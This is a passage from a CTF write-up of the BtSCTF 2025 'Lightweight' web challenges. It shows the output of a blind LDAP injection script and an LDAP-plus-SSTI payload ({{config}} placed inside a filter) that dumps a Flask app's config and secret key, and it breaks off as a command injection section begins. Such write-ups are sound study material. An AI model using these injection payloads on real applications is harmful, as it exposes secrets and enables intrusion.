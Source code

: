 
```text
[spagok@gok]$ python exp.py
Iterations : 69
Pruned charset : _bcdjlnptyBCDJLNPTY0134}

Trying: } (attempt 403)
Current Flag: BtSCTF{_bl1nd_ld4p_1nj3ct10n_y1pp333333

Trying: } (attempt 1001)
Current Flag: BtSCTF{_bl1nd_ld4p_1nj3ct10n_y1pp333333

Flag: BtSCTF{_bl1nd_ld4p_1nj3ct10n_y1pp333333}
```


# Lightweight 2

The second type of injection is SSTI.

We observe that if we login, our name is reflected (or the query).

e.g: 
`username=testuser&password=*`


![login](/imgs/ctf/bts2025/ssti1.png)

So if we POST:
```
username=testuser)(|(cn={{config }}&password=*)
```

Then we get:

![login](/imgs/ctf/bts2025/ssti2.png)
```py
<Config {'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'SECRET_KEY': 'BtSCTF{_ld4p_1nj3ction_plus_sst1_3quals_fl4g}', 'SECRET_KEY_FALLBACKS': None, 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(days=31), 'USE_X_SENDFILE': False, 'TRUSTED_HOSTS': None, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_DOMAIN': None, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_PARTITIONED': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'MAX_FORM_MEMORY_SIZE': 500000, 'MAX_FORM_PARTS': 1000, 'SEND_FILE_MAX_AGE_DEFAULT': None, 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093, 'PROVIDE_AUTOMATIC_OPTIONS': True}>
```


# Lightweight 3

The third is command injection.

We start by logging in with `testuser:*`(LDAPi is still possible)
